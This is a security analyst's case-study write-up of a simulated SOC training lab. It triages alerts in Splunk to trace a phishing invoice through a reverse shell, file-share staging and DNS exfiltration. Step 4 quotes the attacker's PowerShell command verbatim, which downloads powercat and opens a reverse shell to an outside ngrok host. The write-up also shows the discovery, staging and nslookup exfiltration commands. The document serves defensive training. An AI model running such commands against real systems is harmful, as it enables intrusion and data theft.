










# Phishing Unfolding: From Invoice Email to DNS Exfiltration

| Field | Detail |
|---|---|
| **Platform** | TryHackMe SOC Simulator, *Phishing Unfolding* (Medium) |
| **Date** | 2026-11-16 |
| **Tools** | Splunk (SPL), SOC Simulator alert queue & case management |
| **Data sources** | Email gateway logs, Sysmon (Event IDs 1, 11, 15) |
| **Alerts** | 36 in queue · 29 triaged: 15 True Positive, 14 False Positive |
| **Result** | Passed: **100% true positive** and **100% false positive** identification accuracy |
| **Role supported** | SOC Analyst · Incident Responder |

> Lab environment with simulated data, done for training. Screenshots are cleaned up: no flags, answers or secrets.

---

## Case Study at a Glance
- **Problem:** A queue of 36 alerts, mostly noise, hid a live phishing attack that was stealing financial records from a corporate file server.
- **Action:** I triaged the queue in Splunk, traced a malicious invoice attachment to a reverse shell, and followed the attacker's process tree (one PowerShell session, PID 3728) through discovery, file-share access, data staging and DNS exfiltration.
- **Outcome:** I correctly classified all 29 alerts I triaged (15 TP / 14 FP), rebuilt the full attack timeline, decoded the exfiltrated data as a ZIP archive, and wrote escalation-ready case reports with containment steps.

**Takeaway:** I learned to read an attack the way the attacker ran it: in Splunk, one PowerShell process tied fifteen alerts into a single story, from a fake invoice to stolen financial records. It felt like a real SOC shift and mirrors my day job, where I work through alerts every day and look for the trend behind them. For a SOC role, that's the core skill: triage the noise, correlate the evidence, map it to MITRE ATT&CK, and report the bigger issue clearly.

## 1. Summary
On 16 Nov 2026, `michael.ascot` received a fake "overdue invoice" email with a ZIP attachment. About 20 minutes later he opened it and double-clicked `invioce.pdf.lnk`, a Windows shortcut disguised as a PDF. The shortcut ran PowerShell, which downloaded the **powercat** tool into memory and opened a **reverse shell** to an attacker-controlled ngrok tunnel. Over the next five minutes the attacker ran discovery commands, dropped PowerView, mapped the `FILESRV-01\SSF-FinancialRecords` share, copied it into a local staging folder, and **exfiltrated the data over DNS** to `haz4rdw4re.io`. I classified this as a confirmed compromise with data loss and escalated it to Incident Response.

## 2. Scenario & Scope
The SOC Simulator released 36 alerts in real time across phishing, process and execution detections. My objectives were to separate the real attack from the noise, document key events (PowerShell execution, reverse shell, suspicious DNS), and write case reports that let the IR team understand the full scope of the breach.

## 3. Investigation

### Step 1: Prioritize the queue
Rather than working top to bottom, I sorted all 36 alerts by time and severity. A pattern stood out: Low alerts until 22:57, then Medium alerts for a mapped and disconnected network drive, then **ten High alerts within the same minute**. That pointed to an attack escalating, and gave me a hypothesis to test: *attachment → PowerShell → file share → burst of activity*.

### Step 2: The phishing email (Alert 1005)


| Indicator | Detail |
|---|---|
| Sender | `john@hatmakereurope.xyz`: unusual .xyz domain posing as a supplier |
| Subject | "FINAL NOTICE: Overdue Payment - Account Suspension Imminent" |
| Pressure | Suspension "today", legal action within 24 hours |
| Attachment | `ImportantInvoice-Febrary.zip`: a ZIP hides the real file type from users and scanners; "Febrary" typo |
| Missing details | No invoice number, account number or amount |

### Step 3: Did the user open it?
```spl
*febrary
```



Sysmon showed **Outlook** writing the ZIP to disk on `win-3450` at 22:54:14 (Event 11), and **Explorer** extracting `invioce.pdf.lnk` 11 seconds later (Event 15). The `.pdf.lnk` double extension is the giveaway: Windows hides `.lnk`, so the user sees what looks like a PDF, but double-clicking it runs a command.

### Step 4: What did the shortcut run?
```spl
win-3450 powershell
| sort _time
| table _time process.name process.command_line
```


One second after extraction:
```
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');
powercat -c 2.tcp.ngrok.io -p 19282 -e powershell"
```
- `DownloadString` + `IEX`: downloads powercat and runs it **in memory**, leaving no script file on disk
- `-c 2.tcp.ngrok.io -p 19282`: connects **out** to the attacker through an ngrok tunnel
- `-e powershell`: gives the attacker an interactive PowerShell session

That same table laid out everything the attacker did next (Section 6).

### Step 5: Following the attacker's process tree
Every post-exploitation alert shared one parent: **powershell.exe, PID 3728**. That let me tie each alert to the incident with evidence, not just because they happened on the same host:

| Alert | Activity | Why it's malicious |
|---|---|---|
| 1020 | `PowerView.ps1` written to Downloads | AD reconnaissance tool, created by PowerShell rather than a browser |
| 1022 | `net use Z: \\FILESRV-01\SSF-FinancialRecords` | Drive mapping is normally benign, but here it was launched by the attacker's PowerShell, not Explorer or a logon script |
| 1023 | `Robocopy . ...\downloads\exfiltration /E` from `Z:\` | Copied the entire financial share into a staging folder. Rated **Low** by the rule, but it's the core of the data theft |
| 1024 | `net use Z: /delete` | Same parent PID as 1022: cleanup after staging |



### Step 6: DNS exfiltration (Alerts 1025–1034)


Each High alert was `nslookup.exe` querying a long random-looking subdomain of `haz4rdw4re.io`, run from the `exfiltration` folder. I decoded the first chunk, `UEsDBBQ...`, from base64: it starts with **`PK\x03\x04`, the ZIP file signature**. That confirmed the attacker had zipped the stolen files and was sending them out in DNS-query-sized pieces. DNS is often allowed straight through firewalls, which is why attackers use it.

To confirm all ten alerts at once instead of opening each one:
```spl
win-3450 nslookup
| sort _time
| table _time process.pid process.parent.pid process.command_line
```


Exactly 10 nslookup processes, **all with parent PID 3728**, all to `haz4rdw4re.io`. No outlier was hiding in the burst.

### Step 7: Separating noise from the attack
14 alerts were benign. For each parent-child alert I checked four things: **host, parent → child pair, file path, and timing relative to the compromise**.

| Alert | What fired | Verdict reasoning |
|---|---|---|
| 1003 | Marketing email from a .xyz domain | Spam, not phishing: no link, attachment or request. Rule fires on TLD alone |
| 1001 | services.exe → TrustedInstaller.exe on win-3459 | Windows Update, legitimate path, different host |
| **1006** | svchost.exe → rdpclip.exe **on win-3450** | Same host as the attack, but 19 min **before** compromise and outside PID 3728's tree: normal Remote Desktop use |

1006 was the judgment call: being on the same host doesn't make an alert part of the same incident.

## 4. Indicators of Compromise
| Type | Value | Context |
|---|---|---|
| Email sender | `john@hatmakereurope[.]xyz` | Phishing sender |
| Domain | `hatmakereurope[.]xyz` | Sender domain |
| File | `ImportantInvoice-Febrary.zip` | Phishing attachment |
| File | `invioce.pdf.lnk` | Malicious shortcut inside ZIP |
| File | `PowerView.ps1` | AD recon tool dropped in Downloads |
| URL | `hxxps://raw.githubusercontent[.]com/besimorhino/powercat/master/powercat.ps1` | Reverse shell tool |
| Host:Port | `2.tcp.ngrok[.]io:19282` | Reverse shell C2 |
| Domain | `haz4rdw4re[.]io` | DNS exfiltration destination |
| Folder | `C:\Users\michael.ascot\downloads\exfiltration\` | Staging location |

## 5. MITRE ATT&CK Mapping
| Tactic | Technique | ID | Evidence |
|---|---|---|---|
| Initial Access | Phishing: Spearphishing Attachment | T1566.001 | Invoice ZIP from hatmakereurope.xyz |
| Execution | User Execution: Malicious File | T1204.002 | User opened invioce.pdf.lnk |
| Execution | Command & Scripting Interpreter: PowerShell | T1059.001 | IEX download cradle, powercat |
| Defense Evasion | Masquerading: Double File Extension | T1036.007 | `.pdf.lnk` |
| Command & Control | Ingress Tool Transfer | T1105 | powercat.ps1, PowerView.ps1 |
| Command & Control | Protocol Tunneling | T1572 | ngrok tunnel for the reverse shell |
| Discovery | System Information Discovery | T1082 | `systeminfo` |
| Discovery | System Owner/User Discovery | T1033 | `whoami`, `whoami /priv` |
| Discovery | Account Discovery | T1087 | `net user`, PowerView |
| Discovery | Permission Groups Discovery | T1069.001 | `net localgroup` |
| Lateral Movement | Remote Services: SMB/Windows Admin Shares | T1021.002 | `net use Z: \\FILESRV-01\...` |
| Collection | Data from Network Shared Drive | T1039 | Robocopy from Z:\ |
| Collection | Data Staged: Local Data Staging | T1074.001 | `downloads\exfiltration` |
| Defense Evasion | Indicator Removal | T1070 | `net use Z: /delete` |
| Exfiltration | Exfiltration Over Alternative Protocol (DNS) | T1048.003 | Base64 chunks via nslookup to haz4rdw4re.io |

## 6. Timeline
| Time | Event | Alert |
|---|---|---|
| 22:34:07 | Phishing email delivered to michael.ascot | 1005 |
| 22:35:32 | rdpclip.exe on win-3450 (benign, before compromise) | 1006 (FP) |
| 22:54:14 | Outlook saves ImportantInvoice-Febrary.zip to disk | |
| 22:54:25 | Explorer extracts invioce.pdf.lnk | |
| 22:54:26 | LNK launches PowerShell → powercat reverse shell to 2.tcp.ngrok.io:19282 | |
| 22:54:42–22:55:11 | Discovery: systeminfo, whoami, whoami /priv, net user, net localgroup | |
| 22:55:50 | PowerView.ps1 dropped in Downloads | 1020 |
| 22:57:45 | Mapped \\FILESRV-01\SSF-FinancialRecords as Z: | 1022 |
| 22:58:32 | Robocopy copies the entire share into the exfiltration folder | 1023 |
| 22:58:43 | Drive Z: disconnected | 1024 |
| 22:59:17–22:59:33 | 10× nslookup to *.haz4rdw4re.io: data exfiltrated as base64-encoded ZIP chunks | 1025–1034 |
| 22:59:42 | Reverse shell relaunched | |

**Time from email opened to data out: about 5 minutes.**

## 7. Verdict & Response
**Verdict:** True Positive: confirmed compromise of `win-3450` with exfiltration of SSF-FinancialRecords data. Escalated to Incident Response.



**Containment**
1. Isolate win-3450 from the network
2. Disable `michael.ascot`, reset credentials, revoke active sessions
3. Block hatmakereurope.xyz, 2.tcp.ngrok.io and haz4rdw4re.io at the email gateway, proxy and DNS resolver

**Eradication & scoping**
4. Search all mailboxes for this sender/attachment and purge
5. Check DNS logs organization-wide for other hosts querying haz4rdw4re.io
6. Preserve the `exfiltration` folder as evidence of exactly which files were taken
7. Review FILESRV-01 access logs and whether michael.ascot needed access to SSF-FinancialRecords (**least privilege**)

**Impact:** Treat the SSF-FinancialRecords contents as exfiltrated so the business can assess notification obligations.

## 8. Results



- **100%** true positive and **100%** false positive identification
- The platform's feedback praised the analytical depth and the linking between cases. It pointed out two areas to improve, which I've taken on board below.

## 9. Lessons Learned
- **Triage starts with "what can this actually do?"** Spam and phishing can trigger the same rule. Only one needs a response.
- **Parent process is the most valuable field.** A single PID (3728) linked fifteen alerts into one incident and separated them from look-alikes on the same host.
- **Severity is the rule's guess, not the truth.** The data-theft step (1023) was rated Low.
- **Check groups of alerts with a query, not by assumption.** I initially closed the ten DNS alerts as a group before checking each one. I then confirmed them with a single Splunk query. Next time I verify *before* closing, and I write one report per alert rather than duplicating text, which the platform flagged as noise in case management.
- **Explain the "why," not just the lineage.** Feedback noted that some reports leaned on process parentage alone. Each report should say why the specific activity is malicious (e.g., *"Robocopy /E from a file share into a folder named exfiltration is bulk data staging"*).
- **The identity angle:** the attacker never escalated privileges. They used michael.ascot's existing access to the financial share. Least-privilege access reviews would have limited what one phished user could expose.
